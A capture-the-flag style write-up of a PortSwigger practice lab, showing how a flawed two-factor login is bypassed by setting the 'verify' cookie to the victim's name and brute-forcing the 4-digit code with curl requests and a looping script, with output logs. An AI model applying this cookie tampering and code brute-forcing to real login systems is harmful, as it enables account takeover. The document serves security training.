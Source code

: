 # Lab: 2FA broken logic
Level: #Practitioner 

## Description
Taken from the [portswigger lab](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic):

*This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.*

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`

*You also have access to the email server to receive your 2FA verification code.*


#### Tools
- [Cookie editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/)


## Enumeration
When Access de lab it would run a website in a random subdomain with the following structure:

`https://[random-32-hex-value].web-security-academy.net/`
The first  page's section looks like:
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net
```
![index](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/index.png)

Go to the `My account` send me to `/login` view:
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login
```
![login](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/login.png)

Since I have the `wiener:peter` credentials from the lab's description, I am gonna using to check that it redirects to `/login2`.
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/login2
```
![login2](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/login2.png)

And to see the security code they provime it with a `Email clien` buttom that send me to the following `/email` view.
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/email
```
![email](email.png)

If I use that code, it redirects me to `/my-account`
```
https://0aa80033042384adc0fb6b5e000100c2.web-security-academy.net/my-account
```
![my-account](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/my-account.png)

But somethings strange and probably one of the flawed logic is that if I go directly to `/login2` it send me to the verify code view, but at this point you surely are ask you "How the server know who to send the code?" and the answer as well as you are thinking. It is in the cookie!

Using [Cookie editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) firefox addon (to see and modify the cookies confortably) note that there is a `verify` cookie with the `wiener` name.
![cookieEditor](02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/cookieEditor.png)

If i check the wiener email in `/email` there is a lot of verification  codes for each GET request to `/login2`.

Then, the name i put in the `verify` cookie will recieve the verify code. So now check how many times the server allow me try the code. But fortunally to me, there is no limit, only return a `Incorrect security code` error message. So to bruteforce!


## Foothold

Well, before to bruteforce first check the requests manually:

GET requests to ensure verification code is send to email (test with `wiener` user.
```shell
$ curl -s "https://0a370060031c8605c053707000e5000a.web-security-academy.net/login2" -b "verify=wiener" 
```

Now to POST request with a incorrect security code check witch name has the parameter:![inspector](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/inspector.png)

And add it in the `curl` with `--data-raw` with a random code, and get the `Incorrect security code`
```shell
$ curl -s "https://0a370060031c8605c053707000e5000a.web-security-academy.net/login2" -b "verify=wiener" --data-raw "mfa-code=1234"

<!DOCTYPE html>                                                                                                                                             <html>                                                                                                                                                          <head>
...SNIP...
                    <form class=login-form method=POST>                                                                                                                         <p class=is-warning>Incorrect security code</p>                                                                                                                 <label>Please enter your 4-digit security code</label>                                                                                                      <input required type=text name=mfa-code>                                                                                                                    <button class=button type=submit> Login </button>                                                                                                       </form>                                                                                                                                                 </div>                                                                                                                                                  </section>                                                                                                                                              </div>                                                                                                                                                  </body>                                                                                                                                                 </html>  
```

And with the correct code it redirects to  `/my-account`

In this way I need automatizate the process to check every guess between 0-9999. Since i know there will be the same code in every attemp. only I am going to to a loop between that range until hit the correct value.

## Script

I wrote the script  `.sh` . which has the username like argument. If I test it with `wiener` to get the code in the `/email` view:

```shell
$ ./bruteForce2FA.sh > output.txt
```

I redirect the script STDOUT to the `output.txt` file. In this way I can save the total data and analize it. In this case in another shell I use `tail`  to see the last lineas and use `-f`  switch  to interactive see each update.

```shell
$ tail output.txt -f 
...SNIP...
200 | time:0.760854 | bytes:2899 | words:144 | lines:58 | guess:1214                                                                                        200 | time:0.730513 | bytes:2899 | words:144 | lines:58 | guess:1220                                                                                        200 | time:0.722090 | bytes:2899 | words:144 | lines:58 | guess:1224                                                                                        200 | time:0.725983 | bytes:2899 | words:144 | lines:58 | guess:1225                                                                                        200 | time:0.725443 | bytes:2899 | words:144 | lines:58 | guess:1230                                                                                        302 | time:0.761954 | bytes:1 | words:0 | lines:1 | guess:1227                                                                                              Find it code: 1227                                                                                                                                          200 | time:0.919809 | bytes:2899 | words:144 | lines:58 | guess:1210                                                                                        200 | time:0.980081 | bytes:2899 | words:144 | lines:58 | guess:1215                                                                                        200 | time:0.948560 | bytes:2899 | words:144 | lines:58 | guess:1222  
```


Now again but with the `carlos` name in the cookie `verify` 
```shell
$ ./bruteForce2FA.sh > output.txt
```

```shell
$ tail output.txt -f 
200 | time:0.708798 | bytes:2899 | words:144 | lines:58 | guess:0313                                                                                        200 | time:0.711823 | bytes:2899 | words:144 | lines:58 | guess:0314                                                                                        200 | time:0.742138 | bytes:2899 | words:144 | lines:58 | guess:0310                                                                                        200 | time:0.720293 | bytes:2899 | words:144 | lines:58 | guess:0315                                                                                        200 | time:0.752272 | bytes:2899 | words:144 | lines:58 | guess:0311                                                                                        200 | time:0.705151 | bytes:2899 | words:144 | lines:58 | guess:0319                                                                                        200 | time:0.718562 | bytes:2899 | words:144 | lines:58 | guess:0318                                                                                        200 | time:0.758934 | bytes:2899 | words:144 | lines:58 | guess:0312                                                                                        200 | time:0.713097 | bytes:2899 | words:144 | lines:58 | guess:0320                                                                                        302 | time:0.703924 | bytes:1 | words:0 | lines:1 | guess:0324                                                                                              Find it code: 0324    
```

![solved](04-🛬proyectos/repos/portswiggerLabs/02-Authentication/02-Multi-factor/02-2FA-broken-logic/img/solved.png)

### Notes

- To enter the code in the browser you have to have the `/login2` view open previously to avoid overwrite the security code. (or only catch the cookie session and use that in the cooki to `/my-accoynt` view)
- Since script execute mulitples process in paralell, maybe we dont see the string `Find it! password...` in the last line. But the script will stop so only we need to check where is the message.


